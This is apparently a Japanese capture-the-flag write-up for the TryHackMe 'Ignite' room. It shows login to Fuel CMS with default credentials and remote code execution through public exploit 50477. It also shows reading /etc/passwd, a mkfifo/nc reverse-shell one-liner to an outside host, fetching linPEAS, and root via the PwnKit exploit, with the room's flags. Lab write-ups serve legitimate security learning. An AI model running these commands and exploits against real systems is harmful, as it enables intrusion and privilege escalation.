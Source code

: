 # Ignite CTF

https://tryhackme.com/r/room/ignite

## 偵察

### ポートスキャン

HTTP だけ。

```shell
TARGET=<ip>
$ sudo nmap $TARGET
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-12 04:17 EST
Nmap scan report for 10.10.121.207
Host is up (0.27s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```

### DirBuster

下記のパスなどを発見

- /fule/  
  Fuel CMS というシステムのログインページ

- /0/  
  Fuel CMS のドキュメント。バージョン 1.4 と書かれている。
  管理者ログインのデフォルトは、admin/admin と書かれている。

→ admin/admin でログインできた。

Assets, Blocks の画面にアップロード機能がある。 shell.php をアップロードしようとしたが、「The filetype you are attempting to upload is not allowed.」エラー。拡張子に pdf や jpg を付けてもだめ。

### 脆弱性検索

```shell
$ searchsploit fuel | grep CMS
fuel CMS 1.4.1 - Remote Code Execution (1)                                         | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                         | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                         | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                        | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                               | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                   | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                 | php/webapps/50884.txt
```

## RCE

50477 でコマンドを実行できることを確認。  
応答の頭に必ず system が付いているのに注意。

```shell
$ python 50477.py -u http://$TARGET
[+]Connecting...
Enter Command $pwd
system/var/www/html
```

```shell
Enter Command $cat /etc/passwd
systemroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
```

```shell
Enter Command $cat /home/www-data/flag.txt
system6470e39
```

フラグ 1 ゲット

## 特権昇格

```shell
Enter Command $uname -r
system4.15.0-45-generic

Enter Command $cat /etc/issue
systemUbuntu 16.04.6 LTS \n \l
```
4.15.0-45-generic  
Ubuntu 16.04.6 LTS \n \l

cron, sudo, suid 何もなし。

リバースシェル起動。  
ちなみに、よく使うプログラミング言語のリバースシェルは機能しなかった。

```shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f
```

### linPEAS

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```shell
wget http://<ip>/linpeas.sh
chmod +x ./linpeas.sh
./linpeas.sh
```

この2件が目を引く。

```shell
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```
### CVE-2021-4034
```shell
$ wget http://10.2.22.182/CVE-2021-4034-main.zip
$ unzip ./CVE-2021-4034-main.zip
$ cd CVE-2021-4034-main
$ ls
LICENSE
Makefile
README.md
cve-2021-4034.c
cve-2021-4034.sh
dry-run
pwnkit.c

$ make all
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.

$ ls
GCONV_PATH=.
LICENSE
Makefile
README.md
cve-2021-4034
cve-2021-4034.c
cve-2021-4034.sh
dry-run
gconv-modules
pwnkit.c
pwnkit.so
```

```shell
$ ./cve-2021-4034
whoami
root
```
特権昇格成功！

```shell
ls /root
root.txt
cat /root/root.txt
b9bbcb33e1
```
rootフラグゲット！

## 振り返り
- 既知の脆弱性を既知のツールを使って攻撃する内容
- プログラミング言語を使わないリバースプロキシの起動
- linPEAS 等のサジェスターツールの脅威を理解した
